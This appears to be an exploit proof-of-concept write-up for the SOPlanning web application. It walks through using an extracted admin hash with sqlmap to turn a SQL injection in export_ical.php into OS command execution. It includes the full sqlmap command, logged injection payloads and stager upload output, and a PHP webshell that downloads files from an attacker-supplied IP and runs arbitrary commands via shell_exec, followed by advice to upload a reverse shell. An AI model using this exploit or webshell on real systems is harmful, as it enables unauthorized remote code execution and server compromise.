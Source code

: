 Once you have extracted the admin hash, you can now use that to get command execution on the machine through another SQL Injection.

Save the admin hash and insert it into SQLMap as such: 
````
sqlmap -u 'http://HOSTHERE/soplanning/www/export_ical.php?login=admin&hash=HASHHERE&nocache&users=ADM&age=3' -p users --risk=3 --level=5 --threads=10 --dbms=mysql --keep-alive --os-shell\
````

Now you have a web shell uploaded to the server:
````
11:52:31] [INFO] GET parameter 'users' is 'MySQL UNION query (NULL) - 41 to 60 columns' injectable
GET parameter 'users' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2122 HTTP(s) requests:
---
Parameter: users (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: login=admin&hash=0eb87cdffc77dce2baabfd6c4dddc264&nocache&users=ADM') AND (SELECT 6911 FROM (SELECT(SLEEP(5)))GfEH) AND ('gglk'='gglk&age=3

    Type: UNION query
    Title: MySQL UNION query (NULL) - 42 columns
    Payload: login=admin&hash=0eb87cdffc77dce2baabfd6c4dddc264&nocache&users=ADM') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162767171,0x4e6564784469636f6a4f5867627a44744f517452677545755a455a694c4d676f436a776f66645547,0x716a707171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#&age=3
---
[11:53:02] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.41, PHP 7.2.26
back-end DBMS: MySQL >= 5.0.12
[11:53:02] [INFO] going to use a web backdoor for command prompt
[11:53:02] [INFO] fingerprinting the back-end DBMS operating system
[11:53:02] [INFO] the back-end DBMS operating system is Windows
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[11:53:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 2
please provide a comma separate list of absolute directory paths: C:\xampp\htdocs\soplanning\www
[11:53:23] [WARNING] unable to automatically parse any web server path
[11:53:23] [INFO] trying to upload the file stager on 'C:/xampp/htdocs/soplanning/www/' via LIMIT 'LINES TERMINATED BY' method
[11:53:23] [WARNING] unable to upload the file stager on 'C:/xampp/htdocs/soplanning/www/'
[11:53:23] [INFO] trying to upload the file stager on 'C:/xampp/htdocs/soplanning/www/' via UNION method
[11:53:23] [WARNING] expect junk characters inside the file as a leftover from UNION query
[11:53:23] [INFO] the remote file 'C:/xampp/htdocs/soplanning/www/tmpubhkt.php' is larger (768 B) than the local file '/tmp/sqlmapi5F_1P150931/tmpEOtI5R' (727B)
[11:53:23] [INFO] the file stager has been successfully uploaded on 'C:/xampp/htdocs/soplanning/www/' - http://HOST/soplanning/www/tmpubhkt.php
````

Using that webshell you can upload your reverse shell.

Props to FalconSpy (https://twitter.com/0xfalconspy) for the small webshell:
````
<?php if (isset($_REQUEST[‘fupload’])) { file_put_contents($_REQUEST[‘fupload’], file_get_contents(‘http://IP_ADDR/' . $_REQUEST[‘fupload’])); }; if (isset($_REQUEST[‘fexec’])) { echo ‘<pre>’ . shell_exec($_REQUEST[‘fexec’]) . ‘</pre>’; }; ?>
````
Use that to upload and execute your shell after the SQLMap stager is uploaded.


Mad props to : https://twitter.com/HackingHomebre1 for the POC creation and assist.
